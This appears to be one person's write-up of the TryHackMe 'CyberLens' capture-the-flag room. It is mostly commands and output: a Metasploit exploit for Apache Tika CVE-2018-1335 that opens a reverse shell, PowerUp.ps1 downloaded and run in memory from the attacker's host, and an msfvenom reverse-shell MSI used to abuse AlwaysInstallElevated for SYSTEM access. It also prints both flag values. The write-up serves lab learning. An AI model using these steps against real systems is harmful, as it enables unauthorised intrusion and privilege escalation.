

# CTF Challenge Notes

## Challenge Details
- **Name**: `CyberLens`
- **Category**: `Web Server`
- **Description**: `Can you exploit the CyberLens web server and discover the hidden flags?`

Image analysis, filestructures, and data flags

- **Find the User Flag**
- **Find the Admin Flag**

## Enumeration
- **Tools Used**: 
  - `Wappalyzer`
    - Apache 2.4.57
    - JQuery 3.4.1
    - Bootstrap 4.3.1
    - Windows Server
  - `autorecon`
- **Commands and Outputs**:
```
sudo env "PATH=$PATH" autorecon 10.10.65.82 -vv
```

## Initial Analysis
- **Observations**: 
  - Open Ports
    - tcp 135
      - RPC
    - tcp 445
      - SMB
    - tcp 139
      - SMB
    - tcp 3389
      - RDP
    - tcp 80
      - HTTP
    - tcp 49668
      - RPC for LSA, SAM, NetLogon
  - Autorecon ports report
  - [*] http found on tcp/80.
  - [*] msrpc found on tcp/135.
  - [*] netbios-ssn found on tcp/139.
  - [*] microsoft-ds found on tcp/445.
  - [*] ms-wbt-server found on tcp/3389.
  - [*] http found on tcp/80.
  - [*] msrpc found on tcp/135.
  - [*] netbios-ssn found on tcp/139.
  - [*] microsoft-ds found on tcp/445.
  - [*] ms-wbt-server found on tcp/3389.
  - [*] wsman found on tcp/5985.
  - [*] pando-pub found on tcp/7680.
  - [*] http found on tcp/47001.
  - [*] msrpc found on tcp/49664.
  - [*] msrpc found on tcp/49665.
  - [*] msrpc found on tcp/49666.
  - [*] msrpc found on tcp/49667.
  - [*] msrpc found on tcp/49668.
  - [*] msrpc found on tcp/49669.
  - [*] msrpc found on tcp/49670.
  - [*] msrpc found on tcp/49677.
  - [*] http found on tcp/61777.


## Exploitation
- **Identified Vulnerabilities**:
  - Apache Tika 1.17
- **Exploitation Steps**:
  1. Launch metasploit
  2. `search CVE-2018-1335`
     1. Discovered on exploit DB
     2. Found module `exploit/windows/http/apache_tika_jp2_jscript`
  3. Run `use exploit/windows/http/apache_tika_jp2_jscript`
  4. Run `show options`
   ```
      Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:
                                         port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://do
                                         cs.metasploit.com/docs/using-metas
                                         ploit/basics/using-metasploit.html
   RPORT      9998             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing con
                                         nections
   SSLCert                     no        Path to a custom SSL certificate (
                                         default is randomly generated)
   TARGETURI  /                yes       The base path to the web applicati
                                         on
   URIPATH                     no        The URI to use for this exploit (d
                                         efault is random)
   VHOST                       no        HTTP server virtual host
   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface
                                       to listen on. This must be an addres
                                       s on the local machine or 0.0.0.0 to
                                        listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


  Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh,
                                        thread, process, none)
   LHOST     192.168.1.21     yes       The listen address (an interface ma
                                        y be specified)
   LPORT     4444             yes       The listen port
   ```
  5. Set options
   ```
   msf6 exploit(windows/http/apache_tika_jp2_jscript) > set RHOSTS 10.10.155.63
  RHOSTS => 10.10.155.63
  msf6 exploit(windows/http/apache_tika_jp2_jscript) > set RPORT 61777
  RPORT => 61777
  msf6 exploit(windows/http/apache_tika_jp2_jscript) > set TARGETURI /
  TARGETURI => /
  msf6 exploit(windows/http/apache_tika_jp2_jscript) > set LHOST 10.6.59.183
  LHOST => 10.6.59.183
  msf6 exploit(windows/http/apache_tika_jp2_jscript) > set LPORT 4242
   ```
  6. Run `check` to see if target is vulnerable
     1. ```msf6 exploit(windows/http/apache_tika_jp2_jscript) > check
          [+] 10.10.155.63:61777 - The target is vulnerable.
        ```
  7. run `exploit`
  8. We get a shell
  9. Browse to C:\Users\CyberLens\Desktop
     1.  Found file called user.txt
     2.  **User Flag** = THM{T1k4-CV3-f0r-7h3-w1n}

**At this point we need to find a way to elevate from a regular user to a user with admin rights**

  10. Download PowerUp.ps1 -  https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
  11. Server script by hosting via python webserver `phython3 -m http.server 80`
  12. Run the following in the meteterpreter session
```
shell
powershell
iex (iwr -usebasicparsing http://10.6.59.183/PowerUp.ps1)
```
  13. The run invoke-all checks
      1.  This uses powersploit to run a suite of scripts that test for various vulnerabilities that could be exploited to elevate privileges.
      2.  Returns `AlwaysInstallElevated Registry Key` and `Write-UserAddMSI`
          1.  Describes privilege escalation vulnerability on Windows system. Allows MSI packages to be installed with elevated privileges.
          2.  AlwaysInstallElevated is a setting in the Windows Registry that, if enabled, allows MSI (Microsoft Installer) packages to be installed with elevated (administrator) privileges, irrespective of the privilege level of the user who executes the installation.
          3.  This setting consists of two Registry keys:
              - HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
              - HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
              - For the vulnerability to be exploitable, both of these keys need to be set to 1 (true).
              1. If both keys are set to 1, any user, including those with low privileges, can install MSI packages as an administrator. This can be abused to escalate privileges from a normal user to an administrator.
   14. Run the following to create the reverse shell and grab it on the windows system

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=445 -f msi > shell.msi

#on windows

mkdir C:\Temp
cd C:\temp
wget http://<tun0 IP>/shell.msi -o shell.msi
```

   15. Start a listner on kali `netcat -lvnp 445`
   16. Then run `msiexec /quiet /qn /i C:\temp\shell.msi`
   17. We get a shell on the listner
   
   18. Run `whoami`
   19. See we are nt authority/system
   20. Navigate to admin users desktop to discover the flag
       1.  **Flag** = THM{3lev@t3D-4-pr1v35c!}


## Summary and Reflection
- **What Worked**:
  - `Strategy 1`
  - `Strategy 2`
- **Challenges Faced**:
  - `Challenge 1`
  - `Challenge 2`
- **Lessons Learned**:
  - `Lesson 1`
  - `Lesson 2`

## Additional Notes
- `Any additional information or observations`

